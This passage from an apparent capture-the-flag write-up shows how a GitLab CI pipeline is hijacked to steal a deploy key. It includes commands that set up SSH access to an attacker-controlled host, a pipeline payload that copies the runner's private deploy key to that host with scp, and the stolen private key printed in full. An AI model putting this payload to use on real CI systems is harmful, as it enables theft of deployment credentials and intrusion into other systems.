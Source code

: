 ```
|         .=o=X=B=|
+----[SHA256]-----+
```
Change our password to allow for `ssh-copy-id` to work:
```
grinchum-land:~$ sudo -i
grinchum-land:~# passwd samways
New password: 
Retype new password: 
passwd: password updated successfully
grinchum-land:~# exit

grinchum-land:~$ ssh-copy-id -p 2222 172.18.0.99
/usr/bin/ssh-copy-id: INFO: Source of key(s) to be installed: "/home/samways/.ssh/id_rsa.pub"
The authenticity of host '[172.18.0.99]:2222 ([172.18.0.99]:2222)' can't be established.
ED25519 key fingerprint is SHA256:6gkNVtY+64ajFXw/WXYGS+h9YhOEvKxvUkdwZoOPNMI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
/usr/bin/ssh-copy-id: INFO: attempting to log in with the new key(s), to filter out any that are already installed
/usr/bin/ssh-copy-id: INFO: 1 key(s) remain to be installed -- if you are prompted now it is to install the new keys
samways@172.18.0.99's password: 

Number of key(s) added: 1

Now try logging into the machine, with:   "ssh -p '2222' '172.18.0.99'"
and check to make sure that only the key(s) you wanted were added.
```

Now SSH login to our machine should work. 

My final pipeline payload was this:
```
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  variables:
    private_key: LS0tLS1CRUdJTiBPUE<snip>
  script:
    - mkdir -p ~/.ssh
    - echo "$private_key" | base64 -d > ~/.ssh/my_key
    - chmod 0600 ~/.ssh/my_key
    - scp -i ~/.ssh/my_key -P 2222 /etc/gitlab-runner/hhc22-wordpress-deploy samways@172.18.0.99:/home/samways/
```

After a few seconds, I could see the deploy key in `/home/samways` like expected:
```
grinchum-land:~/wordpress.flag.net.internal# cat /home/samways/hhc22-wordpress-deploy 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3wAAAJiMXr0BjF69
AQAAAAtzc2gtZWQyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3w
AAAEBtNE6sqOFoqkmOhcB/9DgzaQhQRC/bwkAbsBXwqrt/mPwRh1lM6l/lES5Zcxv0UoIV
aiIhfYehTVof3RXQ+2rfAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
